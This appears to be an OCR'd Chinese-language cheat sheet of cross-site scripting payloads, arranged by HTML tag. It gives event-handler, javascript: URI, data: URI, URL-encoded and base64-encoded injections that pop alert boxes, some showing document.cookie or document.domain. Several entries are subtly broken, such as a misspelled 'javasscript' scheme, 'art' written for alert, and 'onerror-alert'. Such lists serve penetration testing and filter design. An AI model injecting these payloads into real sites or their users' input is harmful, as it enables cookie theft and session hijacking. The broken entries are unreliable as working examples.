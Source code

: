 ~~~
<div>标签
<div onmouseover=art("XSS Attack!")>Hover over me</div>
这个示例使用`<div>`标签的`onmouseover`事件来触发`alert`弹窗，当用户将鼠标悬停在`<div>`上时，弹窗会出现。
原代码：
<div onmouseover='alert(1)'>DIV</div>
经过url编码：
<div onmouseover%3d'alert%26lpar%3b1%26rpar%3b'>DIV<%2fdiv>

<textarea>标签
<textarea onfocus='alert("XSS Attack!")'></textarea>
在这个示例中，我们使用`<textarea>`标签的`onfocus`事件来触发`alert`弹窗，当用户点击文本区域时，弹窗会出现。

<p> 标签
<p onclick="alert('xss');">xss</p>
<p onmouseover="alert('xss');">xss</p>
<p onmouseout="alert('xss');">xss</p>
<p onmouseup="alert('xss');">xss</p>

<input> 标签
<input onclick="alert('xss');">
<input onfocus="alert('xss');">
<input onfocus="alert('xss');" autofocus="">
<input onmouseover="alert('xss');">
<input type="text" onkeydown="alert('xss');"></input>
<input type="text" onkeypress="alert('xss');"></input>
<input type="text" onkeydown="alert('xss');"></input>

 <details>标签
<details ontoggle="alert('xss');"></details>
<details ontoggle="alert('xss');" open=""></details>

 <form> 标签
<form method="x" action="x" onmouseover="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseout="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseup="alert('xss');"><input type=submit></form>

<select> 标签
<select onfocus="alert('xss');" autofocus></select>
<select onmouseover="alert('xss');"></select>
<select onclick=eval("alert('xss');")></select>

<iframe>标签
<iframe src="data:text/html,<script>alert(111)</script>"></iframe>
<iframe src="javascript:alert(1)">test</iframe>
<iframe onload="alert(document.cookie)"></iframe>
<iframe onload="alert('xss');"></iframe>
<iframe onload="base64,YWxlcnQoJ3hzcycpOw=="></iframe>
<iframe onmouseover="alert('xss');"></iframe>
<!--base64编码-->
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
<iframe src="aaa" onmouseover=alert(1) /><iframe>
<iframe src="javasscript:prompt(111)"></iframe>
<iframe srcdoc="<img src=x onerror=alert(document.domain)>"></iframe><iframe srcdoc="<img src=x onerror-alert(1)>"></iframe>

<svg>标签
<svg onload=alert(1)>
<svg onload=javascript:alert(1)>
<svg onload="alert('xss');"></svg>

<body>标签
<body onload="alert(1)">

~~~